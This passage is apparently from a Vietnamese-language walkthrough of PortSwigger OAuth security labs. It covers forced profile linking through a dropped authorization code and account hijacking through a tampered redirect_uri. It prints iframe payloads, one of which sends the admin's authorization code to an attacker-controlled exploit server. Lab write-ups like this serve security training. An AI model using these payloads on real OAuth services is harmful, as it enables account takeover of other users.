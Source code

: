 >`redirect_uri` sẽ gửi authorization code tới `/oauth-linking`: 
>![image](https://hackmd.io/_uploads/H1Fd5o5LA.png)

>Khi OAuth server trả về code thì ta có thể sử dụng code đó để khiến nạn nhân attach profile của họ vào account social media của mình. Với điều kiện là code đó chưa được sử dụng.

>Bật Intercept lên, tái tạo lại thao tác attach account social media, Forward cho tới khi lấy được code mới từ server trả về: 
>![image](https://hackmd.io/_uploads/rJN5sjcUR.png)

>Chuột phải chọn Copy URL và DROP request này để đảm bảo rằng code chưa được sử dụng và vẫn giữ được giá trị sử dụng của nó.

>Tắt intercept và log out. Lúc này, ta sẽ vào exploi server, tạo 1 iframe có thuộc tính `src` sẽ trỏ vào URL vừa copy, để khi trình duyệt load iframe, sẽ thực hiện việc attach account họ vào account social media của ta. Payload: 
>`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=STOLEN-CODE"></iframe>
`
![image](https://hackmd.io/_uploads/B1y22j58R.png)

>**"Deliver exploit to victim"**, đăng nhập lại vào bằng account social media, ta thấy rằng đã vào thành công tài khoản của `administrator` do đã lừa được admin và gắn account của mình vào admin: 
>![image](https://hackmd.io/_uploads/SkCPTiqI0.png)

>Thực hiện xóa tài khoản `carlos`:
>![image](https://hackmd.io/_uploads/BJtYaj5LR.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/ryvcpjcU0.png)

# **3. OAuth account hijacking via redirect_uri**
>This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.
To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user `carlos`.
The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
You can log in with your own social media account using the following credentials: `wiener:peter`.
![image](https://hackmd.io/_uploads/ByUalh9LR.png)

>Đăng nhập bằng social media account `wiener:peter` : ![image](https://hackmd.io/_uploads/HJroG3cLC.png)

>Bật Intercept lên, ta có thể chỉnh tham số `redirect_uri` tùy ý tại authorization request: 
>![image](https://hackmd.io/_uploads/r1piXn58C.png)

>Sau đó, authorization code được gửi về đúng `redirect_uri` mà ta vừa chỉnh sửa:
![image](https://hackmd.io/_uploads/H1iRm2cUC.png)

>Ta sẽ thực hiện exploit bằng việc gửi cho admin  authorization request chứa `redirect_uri` là trỏ tới địa chỉ exploit-server mà ta controll. Payload: 
`<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
`
